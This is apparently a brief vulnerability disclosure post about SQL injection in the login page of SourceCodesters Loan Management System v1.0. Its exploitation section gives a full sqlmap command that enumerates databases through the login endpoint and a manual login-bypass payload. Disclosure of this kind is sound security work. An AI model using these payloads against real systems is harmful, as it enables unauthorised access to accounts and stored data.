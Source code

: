 ```yaml
---
layout: post
title: 
tags: [CVE, SQL injection]
description: "SQL injection vulnerability in 'login.php' login-portal webpage of SourceCodesters Loan Management System v1.0"
---
```


## SQL Injection

SQL injection vulnerability in 'login.php' login-portal webpage of SourceCodesters Loan Management System v1.0

### Exploitation :

#### With SQLMAP

```
sqlmap -u "http://localhost/loan/ajax.php?action=login" --method POST --data "username=test&password=test" --dbms=MySQL --risk 3 --level 5 --batch -v 3 --dbs
```

#### Manually

```
admin'or '1'='1--
```





*More information to come*